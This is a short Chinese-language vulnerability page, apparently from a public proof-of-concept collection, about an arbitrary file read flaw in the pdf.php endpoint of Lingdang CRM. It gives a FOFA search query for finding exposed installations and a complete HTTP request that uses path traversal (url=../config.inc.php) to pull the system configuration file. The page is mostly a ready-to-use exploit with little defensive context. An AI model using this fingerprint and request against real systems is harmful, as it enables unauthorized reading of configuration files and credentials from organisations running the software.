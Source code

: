# 灵当CRM系统接口pdf.php接口处存在任意文件读取漏洞

灵当CRM系统接口pdf.php接口处存在任意文件读取漏洞，允许攻击者通过恶意读取系统配置文件，获取敏感信息。

## fofa

```javascript
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

## poc

```javascript
GET /crm/data/pdf.php?url=../config.inc.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: Keep-Alive
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181607841.webp)